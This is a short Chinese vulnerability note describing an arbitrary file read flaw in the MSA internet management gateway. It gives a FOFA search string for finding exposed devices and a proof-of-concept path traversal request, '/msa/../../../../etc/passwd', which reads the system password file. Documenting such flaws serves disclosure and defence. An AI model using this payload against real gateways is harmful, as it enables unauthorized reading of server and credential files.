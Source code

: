 # MSA 互联网管理网关 msa 任意文件下载漏洞

## 漏洞描述

MSA 互联网管理网关存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

```
MSA 互联网管理网关
```

## FOFA

```
"互联网管理网关"
```

## 漏洞复现

登录页面

![img](./images/202202110916716.png)

验证POC

```php
/msa/../../../../etc/passwd
```

![img](./images/202202110916705.png)